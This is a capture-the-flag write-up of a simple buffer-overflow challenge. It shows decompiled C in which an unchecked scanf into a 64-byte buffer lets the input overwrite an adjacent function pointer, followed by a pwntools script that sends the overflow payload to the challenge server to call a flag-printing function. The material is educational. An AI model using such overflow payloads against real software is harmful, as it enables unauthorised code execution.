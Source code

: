 ![problem statement](problem-statement.png)

Opening the binary file in ghidra to find the following functions (some parts are removed for simplicity, some types and variables are renamed for better understanding):
```c
void main(void)
{
  char buff [64];
  code *code_addr;
  code_addr = (code *)0x0;
  printDogArt();
  fflush(_stdout);
  puts("who let the dogs out:");
  fflush(_stdout);
  __isoc99_scanf("%s", buff);
  if (code_addr == (code *)0x0) {
    puts("I tell the fellas start the name calling!");
  }
  else {
    printf("Well, the party was nice, the party was  @ %p\n",code_addr);
    fflush(_stdout);
    (*code_addr)();
  }
  exit(0);
}

void callme(void)
{
  puts("BDSEC{find_the_flag_on_server!!!}");
  exit(0);
}
```

Now, we want to call the function `callme`. But how do we do that? Well, if we look at the stack frame of `main`, we can see that `code_addr` is located right after `buff`. This means that if we overflow `buff`, we can overwrite `code_addr` with the address of `callme`. Now if the value of `code_addr` is not `0x0`, then `callme` will be called and we will get the flag. From ghidra we can find the address of the `callme` function to be `0x0804875e`. So to do the exploit, we can use the following python script:
```python
from pwn import *

# io = process('./callme')
io = remote('139.144.184.150', 3333)
io.recvuntil(b'who let the dogs out:\n')
io.sendline(b'A'*64 + p64(0x0804875e))
print(io.recvall().decode())
```